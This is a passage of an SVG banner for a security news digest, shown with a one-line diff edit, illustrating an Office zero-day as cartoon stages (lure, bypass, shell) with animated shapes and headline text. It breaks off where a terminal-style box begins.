

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630" width="1200" height="630" role="img" aria-label="Tech Security Weekly Digest January 28 2026: MS Office Zero-Day CVE-2026-21509, Grist Core RCE, CTEM Framework">
  <defs>
    <linearGradient id="bgMain" x1="0%" y1="0%" x2="100%" y2="100%">
      <stop offset="0%" stop-color="#080F1E" />
      <stop offset="55%" stop-color="#0A1225" />
      <stop offset="100%" stop-color="#0D0E28" />
    </linearGradient>
    <linearGradient id="heroGrad" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#111827" />
      <stop offset="100%" stop-color="#0C1421" />
    </linearGradient>
    <linearGradient id="tr1Grad" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#1A1226" />
      <stop offset="100%" stop-color="#130E1E" />
    </linearGradient>
    <linearGradient id="br1Grad" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#0E1A14" />
      <stop offset="100%" stop-color="#0A1410" />
    </linearGradient>
    <linearGradient id="termBg" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#0D1117" />
      <stop offset="100%" stop-color="#080D10" />
    </linearGradient>
    <linearGradient id="docGrad" x1="0%" y1="0%" x2="0%" y2="100%">
      <stop offset="0%" stop-color="#E8F0FE" />
      <stop offset="100%" stop-color="#C5D5F8" />
    </linearGradient>
    <linearGradient id="exploitFlare" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#E63946" stop-opacity="0" />
      <stop offset="50%" stop-color="#FF4757" stop-opacity="0.9" />
      <stop offset="100%" stop-color="#E63946" stop-opacity="0" />
    </linearGradient>
    <linearGradient id="ctemBar1" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#06D6A0" />
      <stop offset="100%" stop-color="#05A880" />
    </linearGradient>
    <linearGradient id="ctemBar2" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#118AB2" />
      <stop offset="100%" stop-color="#0D6F8E" />
    </linearGradient>
    <linearGradient id="ctemBar3" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#FFD166" />
      <stop offset="100%" stop-color="#F4B93E" />
    </linearGradient>
    <linearGradient id="ctemBar4" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#EF476F" />
      <stop offset="100%" stop-color="#C73558" />
    </linearGradient>
    <linearGradient id="ctemBar5" x1="0%" y1="0%" x2="100%" y2="0%">
      <stop offset="0%" stop-color="#8338EC" />
      <stop offset="100%" stop-color="#6020C8" />
    </linearGradient>
    <radialGradient id="glowRed" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#E63946" stop-opacity="0.6" />
      <stop offset="100%" stop-color="#E63946" stop-opacity="0" />
    </radialGradient>
    <radialGradient id="glowAmber" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#FF6B35" stop-opacity="0.5" />
      <stop offset="100%" stop-color="#FF6B35" stop-opacity="0" />
    </radialGradient>
    <radialGradient id="glowGreen" cx="50%" cy="50%" r="50%">
      <stop offset="0%" stop-color="#06D6A0" stop-opacity="0.45" />
      <stop offset="100%" stop-color="#06D6A0" stop-opacity="0" />
    </radialGradient>
    <pattern id="dotGrid" x="0" y="0" width="36" height="36" patternUnits="userSpaceOnUse">
      <circle cx="18" cy="18" r="0.7" fill="#2A3558" opacity="0.55" />
    </pattern>
    <filter id="softShadow" x="-10%" y="-10%" width="130%" height="130%">
      <feGaussianBlur in="SourceAlpha" stdDeviation="3" />
      <feOffset dx="2" dy="4" />
      <feComponentTransfer>
        <feFuncA type="linear" slope="0.5" />
      </feComponentTransfer>
      <feMerge>
        <feMergeNode />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
    <filter id="txtGlow" x="-20%" y="-20%" width="140%" height="140%">
      <feGaussianBlur in="SourceAlpha" stdDeviation="1.5" />
      <feOffset dx="1" dy="1.5" />
      <feComponentTransfer>
        <feFuncA type="linear" slope="0.65" />
      </feComponentTransfer>
      <feMerge>
        <feMergeNode />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
  </defs>
  <rect width="1200" height="630" fill="url(#bgMain)" />
  <rect width="1200" height="630" fill="url(#dotGrid)" />
  <circle cx="280" cy="300" r="160" fill="url(#glowRed)">
    <animate attributeName="opacity" values="0.5;0.9;0.5" dur="7.2s" repeatCount="indefinite" />
    <animate attributeName="r" values="160;178;160" dur="9.5s" repeatCount="indefinite" />
  </circle>
  <circle cx="900" cy="170" r="120" fill="url(#glowAmber)">
    <animate attributeName="opacity" values="0.4;0.8;0.4" dur="6.1s" repeatCount="indefinite" />
    <animate attributeName="r" values="120;138;120" dur="8.3s" repeatCount="indefinite" />
  </circle>
  <circle cx="910" cy="490" r="110" fill="url(#glowGreen)">
    <animate attributeName="opacity" values="0.35;0.7;0.35" dur="8.4s" repeatCount="indefinite" />
    <animate attributeName="r" values="110;126;110" dur="10.2s" repeatCount="indefinite" />
  </circle>
  <g fill="#7FB2FF">
    <circle cx="140" cy="58" r="1.1">
      <animate attributeName="opacity" values="0.2;1;0.2" dur="3.3s" repeatCount="indefinite" />
    </circle>
    <circle cx="390" cy="65" r="0.9">
      <animate attributeName="opacity" values="0.15;0.9;0.15" dur="4.6s" repeatCount="indefinite" />
    </circle>
    <circle cx="700" cy="61" r="1.2">
      <animate attributeName="opacity" values="0.2;0.95;0.2" dur="3.8s" repeatCount="indefinite" />
    </circle>
    <circle cx="1050" cy="68" r="0.8">
      <animate attributeName="opacity" values="0.15;0.85;0.15" dur="5.4s" repeatCount="indefinite" />
    </circle>
    <circle cx="70" cy="340" r="1.0">
      <animate attributeName="opacity" values="0.18;0.8;0.18" dur="4.9s" repeatCount="indefinite" />
    </circle>
    <circle cx="630" cy="310" r="1.1">
      <animate attributeName="opacity" values="0.2;0.9;0.2" dur="3.5s" repeatCount="indefinite" />
    </circle>
    <circle cx="1170" cy="320" r="0.9">
      <animate attributeName="opacity" values="0.15;0.8;0.15" dur="4.2s" repeatCount="indefinite" />
    </circle>
    <circle cx="22" cy="508" r="0.8">
      <animate attributeName="opacity" values="0.15;0.75;0.15" dur="5.7s" repeatCount="indefinite" />
    </circle>
    <circle cx="622" cy="518" r="1.2">
      <animate attributeName="opacity" values="0.2;0.95;0.2" dur="4.0s" repeatCount="indefinite" />
    </circle>
    <circle cx="1185" cy="510" r="0.9">
      <animate attributeName="opacity" values="0.18;0.85;0.18" dur="4.8s" repeatCount="indefinite" />
    </circle>
    <circle cx="250" cy="600" r="1.1">
      <animate attributeName="opacity" values="0.15;0.8;0.15" dur="5.8s" repeatCount="indefinite" />
    </circle>
    <circle cx="1090" cy="592" r="1.0">
      <animate attributeName="opacity" values="0.18;0.88;0.18" dur="4.3s" repeatCount="indefinite" />
    </circle>
  </g>
  <rect x="0" y="0" width="1200" height="56" fill="#030810" opacity="0.95" />
  <text x="36" y="36" font-family="Helvetica, Arial, sans-serif" font-size="18" font-weight="700" fill="#7FB2FF" letter-spacing="2.5">WEEKLY DIGEST</text>
  <text x="1164" y="36" font-family="Helvetica, Arial, sans-serif" font-size="15" font-weight="600" fill="#7DA3D9" letter-spacing="1.5" text-anchor="end">2026.01.28</text>
  <rect x="0" y="54" width="1200" height="2" fill="#E63946" opacity="0.85">
    <animate attributeName="opacity" values="0.35;1;0.35" dur="4.5s" repeatCount="indefinite" />
  </rect>
  <rect x="32" y="80" width="600" height="510" rx="14" ry="14" fill="url(#heroGrad)" stroke="#E63946" stroke-width="1.8" opacity="0.98" />
  <rect x="32" y="80" width="600" height="4" fill="#E63946">
    <animate attributeName="opacity" values="0.5;1;0.5" dur="3.6s" repeatCount="indefinite" />
  </rect>
  <text x="54" y="114" font-family="Helvetica, Arial, sans-serif" font-size="13" font-weight="700" fill="#FF6B80" letter-spacing="3">CRITICAL  /  CVE-2026-21509</text>
  <text x="54" y="148" font-family="Helvetica, Arial, sans-serif" font-size="31" font-weight="800" fill="#F8FAFC" filter="url(#txtGlow)">MS Office Zero-Day</text>
-   <text x="54" y="176" font-family="Helvetica, Arial, sans-serif" font-size="18" font-weight="500" fill="#CBD5E1">Protected View bypass — active exploitation</text>
+   <text x="54" y="176" font-family="Helvetica, Arial, sans-serif" font-size="18" font-weight="500" fill="#CBD5E1">Protected View bypass -- active exploitation</text>
  <text x="62" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">01 LURE</text>
  <text x="216" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">02 BYPASS</text>
  <text x="385" y="200" font-family="Helvetica, Arial, sans-serif" font-size="10" fill="#7DA3D9" font-weight="600">03 SHELL</text>
  <g transform="translate(56,204)" filter="url(#softShadow)">
    <rect x="0" y="0" width="76" height="96" rx="5" ry="5" fill="url(#docGrad)" stroke="#7FB2FF" stroke-width="1.5" />
    <path d="M58 0 L76 18 L58 18 Z" fill="#A8C2F0" stroke="#7FB2FF" stroke-width="1" />
    <text x="10" y="52" font-family="Helvetica, Arial, sans-serif" font-size="26" font-weight="900" fill="#1F4E98">W</text>
    <text x="8" y="72" font-family="Helvetica, Arial, sans-serif" font-size="10" font-weight="700" fill="#3A5998">DOCX</text>
    <rect x="40" y="68" width="34" height="20" rx="3" fill="#E63946">
      <animate attributeName="opacity" values="0.8;1;0.8" dur="1.8s" repeatCount="indefinite" />
    </rect>
    <text x="44" y="83" font-family="Helvetica, Arial, sans-serif" font-size="9" font-weight="800" fill="#FFFFFF">EVIL</text>
    <rect x="16" y="-18" width="44" height="14" rx="3" fill="#2A3558" stroke="#7FB2FF" stroke-width="0.8" />
    <text x="20" y="-7" font-family="Helvetica, Arial, sans-serif" font-size="8" fill="#7FB2FF">attach</text>
  </g>
  <path d="M142 248 L200 248" stroke="#E63946" stroke-width="2" fill="none" stroke-dasharray="5 3">
    <animate attributeName="stroke-dashoffset" values="0;-16" dur="1.2s" repeatCount="indefinite" />
  </path>
  <polygon points="200,244 210,248 200,252" fill="#E63946">
    <animate attributeName="opacity" values="0.7;1;0.7" dur="1.2s" repeatCount="indefinite" />
  </polygon>
  <g transform="translate(212,210)">
    <path d="M40 0 L80 16 L80 56 Q80 88 40 104 Q0 88 0 56 L0 16 Z" fill="#1C2541" stroke="#E63946" stroke-width="2.2" />
    <line x1="22" y1="30" x2="58" y2="70" stroke="#E63946" stroke-width="3.5">
      <animate attributeName="stroke-width" values="3;4.5;3" dur="1.4s" repeatCount="indefinite" />
    </line>
    <line x1="58" y1="30" x2="22" y2="70" stroke="#E63946" stroke-width="3.5">
      <animate attributeName="stroke-width" values="3;4.5;3" dur="1.4s" repeatCount="indefinite" />
    </line>
    <text x="4" y="96" font-family="Helvetica, Arial, sans-serif" font-size="9" font-weight="700" fill="#FF6B80">BYPASSED</text>
  </g>
  <ellipse cx="255" cy="248" rx="55" ry="18" fill="url(#exploitFlare)" opacity="0.6">
    <animate attributeName="opacity" values="0.3;0.7;0.3" dur="2.1s" repeatCount="indefinite" />
    <animate attributeName="rx" values="55;68;55" dur="2.1s" repeatCount="indefinite" />
  </ellipse>
  <g fill="#E63946">
    <circle cx="212" cy="248" r="2.8">
      <animate attributeName="opacity" values="0;1;0" dur="2.0s" repeatCount="indefinite" />
    </circle>
    <circle cx="300" cy="248" r="2.8">
      <animate attributeName="opacity" values="0;1;0" dur="2.3s" repeatCount="indefinite" />
    </circle>
    <circle cx="256" cy="212" r="2.0">
      <animate attributeName="opacity" values="0;0.9;0" dur="1.8s" repeatCount="indefinite" />
    </circle>
    <circle cx="256" cy="286" r="2.0">
      <animate attributeName="opacity" values="0;0.9;0" dur="2.5s" repeatCount="indefinite" />
    </circle>
    <circle cx="220" cy="218" r="1.4">
      <animate attributeName="opacity" values="0;0.8;0" dur="3.1s" repeatCount="indefinite" />
    </circle>
    <circle cx="292" cy="218" r="1.4">
      <animate attributeName="opacity" values="0;0.8;0" dur="2.7s" repeatCount="indefinite" />
    </circle>
    <circle cx="220" cy="278" r="1.4">
      <animate attributeName="opacity" values="0;0.8;0" dur="2.2s" repeatCount="indefinite" />
    </circle>
    <circle cx="292" cy="278" r="1.4">
      <animate attributeName="opacity" values="0;0.8;0" dur="3.4s" repeatCount="indefinite" />
    </circle>
  </g>
  <path d="M302 248 L370 248" stroke="#E63946" stroke-width="2" fill="none" stroke-dasharray="5 3">
    <animate attributeName="stroke-dashoffset" values="0;-16" dur="1.0s" repeatCount="indefinite" />
  </path>
  <polygon points="370,244 380,248 370,252" fill="#E63946">
    <animate attributeName="opacity" values="0.7;1;0.7" dur="1.0s" repeatCount="indefinite" />
  </polygon>
  <g transform="translate(382,196)" filter="url(#softShadow)">
    <rect x="0" y="0" width="216" height="128" rx="8" ry="8" fill="url(#termBg)" stroke="#30C060" stroke-width="1.5" />
